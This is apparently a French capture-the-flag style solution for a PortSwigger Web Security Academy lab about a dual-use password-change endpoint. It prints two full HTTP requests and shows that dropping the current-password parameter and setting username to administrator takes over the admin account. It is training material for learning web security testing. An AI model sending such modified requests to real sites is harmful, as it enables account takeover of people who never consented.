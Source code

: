 # Lab

https://portswigger.net/web-security/logic-flaws/examples/lab-logic-flaws-weak-isolation-on-dual-use-endpoint

## Solution

Sur la page de profil de l'utilisateur, on peut modifier son mot de passe en renseignant, son username, son mot de passe actuel et le nouveau mot de passe.

```html
POST /my-account/change-password HTTP/2
Host: 0aa5008a0495781981d344b000d300cd.web-security-academy.net
Cookie: session=7ckvn6V4Uhxj4rH835UgJc6uD0Hs8PWW
Content-Length: 115
Cache-Control: max-age=0
Sec-Ch-Ua: "Not_A Brand";v="8", "Chromium";v="120"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: https://0aa5008a0495781981d344b000d300cd.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0aa5008a0495781981d344b000d300cd.web-security-academy.net/my-account?id=wiener
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Priority: u=0, i

csrf=tcmiifiWfRVteOWzcAaC1JgG9JoeFMUq&username=wiener&current-password=zaza&new-password-1=zaza&new-password-2=zaza
```

Si on supprime le paramètre `current-password`, on peut changer le mot de passe de n'importe quel utilisateur.

```html
POST /my-account/change-password HTTP/2
Host: 0aa5008a0495781981d344b000d300cd.web-security-academy.net
Cookie: session=7ckvn6V4Uhxj4rH835UgJc6uD0Hs8PWW
Content-Length: 100
Cache-Control: max-age=0
Sec-Ch-Ua: "Not_A Brand";v="8", "Chromium";v="120"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: https://0aa5008a0495781981d344b000d300cd.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0aa5008a0495781981d344b000d300cd.web-security-academy.net/my-account?id=wiener
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Priority: u=0, i

csrf=tcmiifiWfRVteOWzcAaC1JgG9JoeFMUq&username=administrator&new-password-1=zaza&new-password-2=zaza
```

On peut ensuite se connecter avec le compte `administrator` et le mot de passe `zaza` pour supprimer l'utilisateur `carlos`.